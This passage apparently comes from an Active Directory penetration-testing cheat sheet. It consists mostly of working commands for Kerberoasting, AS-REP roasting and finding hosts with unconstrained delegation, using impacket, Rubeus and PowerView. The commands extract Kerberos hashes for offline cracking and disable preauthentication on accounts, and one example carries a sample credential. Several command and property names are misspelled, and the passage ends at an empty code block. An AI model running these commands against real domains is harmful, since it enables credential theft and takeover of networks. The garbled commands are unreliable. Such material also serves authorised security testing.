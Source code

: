```

# impacket
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>

# Rubeus
Rubeus.exe kerberoast /outfile:hashes.kerberoast
Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast
```
Use `tgtdeleg` to force RC4 for AES-enabled accounts:
```
# Rubeus
Rubeus.exe kerberoast /tgtdeleg
```
### AS-REP Roasting
AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:
```
# AD Module
Get-ADUser -Filter {DoesNoteRequirePreAuth -eq $True} -Properties DoesNoteRequirePreAuth

# Powerview 
Get-DomainUser -PreauthNotRequired -Verbose
Get-NetUser -PreauthNotRequired
```
Check for interesting permissions on accounts (to disable Kerberos Preauth on an account we have Write permissions or more). Add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable:
```
# Powerview 
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
```
Disable Kerberos Preauth:
```
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
```
Extract hashes:
```
# Powerview
Get-ASREPHash -UserName <UserName> -Verbose
Invoke-ASREPRoast -Verbose

# Rubeus
Rubeus.exe asreproast /outfile:<NameOfTheFile>
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast \[/user:username\]

# impacket
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
### Unconstrained delegation
 Discover domain joined computers that have Unconstrained Delegation enabled:
 ```
# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description

# Powerview
Get-NetComputer -UnConstrained
Get-NetComputer -Unconstrainusered |   select samaccountname
```
List tickets and check if a DA or some high value target has stored its TGT:
```
```